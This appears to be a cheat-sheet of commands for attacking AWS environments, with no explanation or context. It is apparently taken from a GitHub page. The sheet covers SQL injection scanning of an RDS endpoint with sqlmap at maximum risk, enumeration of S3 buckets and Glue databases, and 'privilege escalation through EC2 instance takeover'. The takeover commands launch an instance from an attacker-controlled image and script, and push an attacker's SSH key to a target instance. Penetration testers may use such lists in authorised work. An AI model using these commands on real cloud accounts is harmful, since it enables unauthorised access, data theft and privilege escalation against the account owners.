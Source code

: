 ```
sqlmap -u "<rds-instance-url>" --risk=3 --level=5
```


```
pspy -a
```


### Enumeration of open S3 buckets and their contents

```
aws s3 ls s3://
```


```
s3enum --profile=<aws-profile> --no-color
```


```
python bucket_finder.py -o buckets.txt
```


### Privilege escalation through EC2 instance takeover


```
aws ec2 run-instances --image-id <attacker-controlled-ami> --instance-type <desired-instance-type> --key-name <key-pair-name> --subnet-id <subnet-id> --security-group-ids <security-group-id> --user-data "<attacker-controlled-script>"
```


```
./prowler -M all
```



```
aws ec2-instance-connect send-ssh-public-key --instance-id <target-instance-id> --availability-zone <availability-zone> --instance-os-user <username> --ssh-public-key "<attacker-public-key>"
```



### Enumeration of AWS Glue Data Catalog databases


```
aws glue get-databases
```



```
import boto3

glue_client = boto3.client('glue')
response = glue_client.get_databases()

for database in response['DatabaseList']:
    print(database['Name'])
```
